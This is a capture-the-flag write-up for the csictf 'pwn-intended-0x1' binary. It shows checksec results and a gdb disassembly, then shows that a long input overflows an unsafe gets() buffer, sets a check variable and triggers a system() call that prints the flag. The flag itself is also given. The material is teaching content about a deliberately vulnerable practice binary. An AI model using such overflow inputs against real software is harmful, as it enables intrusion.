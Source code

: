      #  pwn-intended-0x1
##Info

$file pwn-intended-0x1

pwn-intended-0x1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1fc0accd801ea951a4ec2f7f8c804e0559ccb1db, for GNU/Linux 3.2.0, not stripped

$ checksec pwn-intended-0x1
[*] /pwn-intended-0x1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Anaylsing binary 


gdb-peda$ disass main


   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe5f]        # 0x402024
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0x0
   0x00000000004011ce <+120>:	je     0x4011ed <main+151>
   0x00000000004011d0 <+122>:	lea    rdi,[rip+0xe59]        # 0x402030
   0x00000000004011d7 <+129>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+134>:	lea    rdi,[rip+0xe94]        # 0x402077
   0x00000000004011e3 <+141>:	mov    eax,0x0
   0x00000000004011e8 <+146>:	call   0x401050 <system@plt>
   0x00000000004011ed <+151>:	mov    eax,0x0
   0x00000000004011f2 <+156>:	leave  
   0x00000000004011f3 <+157>:	ret    



We can see gets function.so try it by giving some input to fill  stack

gdb-peda$ r 
Starting program: /home/kl4u5/Downloads/pwn-intended-0x1 
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.

process  is executing new program: /bin/dash
[New process]
process  is executing new program: /bin/cat

We can see its a easy bufferoverflow vulnerability.


flag csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}



